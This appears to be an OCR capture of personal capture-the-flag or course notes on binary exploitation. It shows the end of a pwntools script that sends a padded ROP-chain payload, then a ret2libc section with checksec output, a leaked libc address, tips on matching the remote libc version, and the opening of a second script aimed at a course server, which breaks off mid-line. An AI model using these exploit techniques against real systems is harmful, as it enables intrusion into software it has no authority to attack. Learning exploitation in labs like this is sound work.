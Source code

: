 	# Construct the full payload
	padding = cyclic(16)                   # Adjust padding if needed for overflow
	payload = padding + rop_chain_bytes
	
	# Send the payload to the program
	p.sendlineafter(b'...', payload)
	
	# Interact with the program after exploitation
	p.interactive()
	
	```
	
## retlibc

* always checksec first

	```
	Arch:       amd64-64-little
	RELRO:      Full RELRO
	Stack:      No canary found
	NX:         NX enabled
	PIE:        PIE enabled
	SHSTK:      Enabled
	IBT:        Enabled
	Stripped:   No
	```

* `ldd ret2libc` got the libc addr which is `libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ff972b6b000)

* ROP chain -> pop a shell using libc gadgets since there is no useful gadgets in binary
* works well in local machine but not remote server
* brute force libc version: by given `setbuf` addr, put into [libc.rip](libc.rip) and download all possible libcs, try to match the remote server

	```
	libc = ELF('./libc_version')
	```


* script

	```
	from pwn import *
	
	context.arch = 'amd64'
	if args.REMOTE:
	    p = remote('6447.lol', 7002)
	elif args.HOST:
	    p = process('./ret2libc')
	else:
	    context.terminal = ['tmux', 'splitw', '-h', '-p', '70']
	    p = gdb.debug('./ret2libc',
	                  gdbscript='''
	                      b *joke
	                      c
	                      ''')
	                      